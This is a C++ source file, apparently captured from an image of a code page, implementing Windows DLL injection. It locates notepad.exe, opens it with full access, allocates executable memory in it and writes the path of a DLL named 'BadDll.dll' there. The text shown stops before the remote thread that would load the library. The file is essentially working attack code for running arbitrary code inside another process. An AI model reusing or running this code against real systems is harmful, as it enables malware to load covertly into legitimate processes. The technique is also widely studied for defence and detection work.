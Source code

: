 ````
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

int main()
{
    const WCHAR* processName = L"notepad.exe";
    const char* dllLocation = "C:\\Users\\George\\source\\repos\\DllInjection\\x64\\Debug\\BadDll.dll";
    size_t dllLocationSize = strlen(dllLocation);

    HANDLE processSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (processSnap == INVALID_HANDLE_VALUE) {
        std::cout << "[-] Could not retrieve process snapshot. Error code: " << GetLastError();
        return -1;
    }
    std::cout << "[+] Process snapshot retrieved successfully." << std::endl;

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(processSnap, &processEntry)) {
        std::cout << "[-] Could not iterate through process snapshot. Error code: " << GetLastError();
        return -1;
    }

    do {
        if (!wcscmp(processEntry.szExeFile, processName)) {
            std::wcout << "[+] Target process found: " << processEntry.szExeFile << " (" << processEntry.th32ProcessID << ")" << std::endl;
            break;
        }
    } while (Process32Next(processSnap, &processEntry));

    CloseHandle(processSnap);

    if (wcscmp(processEntry.szExeFile, processName)) {
        std::cout << "[-] Target process not found.";
        return -1;
    }

    HANDLE targetProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processEntry.th32ProcessID);
    if (targetProcess == NULL) {
        std::cout << "[-] Could not get a process handle. Error code: " << GetLastError();
        return -1;
    }
    std::cout << "[+] Process handle retrieved successfully." << std::endl;

    LPVOID dllPath = VirtualAllocEx(targetProcess, NULL, dllLocationSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (dllPath == NULL) {
        std::cout << "[-] Could not allocate memory. Error code: " << GetLastError();
        return -1;
    }
    std::cout << "[+] Menory allocated successfully." << std::endl;

    if (!WriteProcessMemory(targetProcess, dllPath, dllLocation, dllLocationSize, NULL)) {
        std::cout << "[-] Could not inject dll. Error code: " << GetLastError();
        return -1;
    }

````